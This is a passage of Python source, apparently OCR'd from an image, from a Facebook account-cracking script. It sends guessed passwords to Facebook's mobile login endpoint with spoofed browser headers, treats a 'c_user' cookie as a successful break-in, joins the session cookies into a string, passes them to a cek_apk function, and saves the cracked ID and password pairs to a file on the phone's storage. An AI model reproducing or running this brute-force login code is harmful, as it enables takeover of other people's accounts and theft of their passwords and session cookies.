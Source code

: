             'cache-control': 'no-cache, no-store, must-revalidate',

            "referer": 'https://m.free.facebook.com/',

            "sec-ch-ua": '"Google Chrome";v="90", "Not)A;Brand";v="8", "Chromium";v="75"',

            "sec-ch-ua-mobile": '?0',

            "sec-ch-ua-platform": "Windows",

            "sec-fetch-dest": 'document',

            "sec-fetch-mode": 'navigate',

            "sec-fetch-site": 'none',

            "sec-fetch-user": '?1',

            "upgrade-insecure-requests": '1',

            "user-agent": pro}

            lo = session.post('https://mbasic.facebook.com/login/device-based/regular/login/?refsrc',data=log_data,headers=header_freefb).text

            log_cookies=session.cookies.get_dict().keys()

            if 'c_user' in log_cookies:

                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])

                cid = coki[65:80]

                print(f'\r\33[1;92m [𝐎𝐊] '+cid+' | '+ps+'\33[0;92m')

                #print(f'\r\33[1;92m [🔢] Numer : {uid}')

                #print(f'\r\033[1;92m [🍪] COOKIE : '+coki)

                cek_apk(session,coki)

                oks.append(cid)

                open('/sdcard/S4MI-ok.txt', 'a').write(cid+' | '+ps+'\n')

                break

            else:

                continue

        loop+=1        

    except:

        pass

Main()
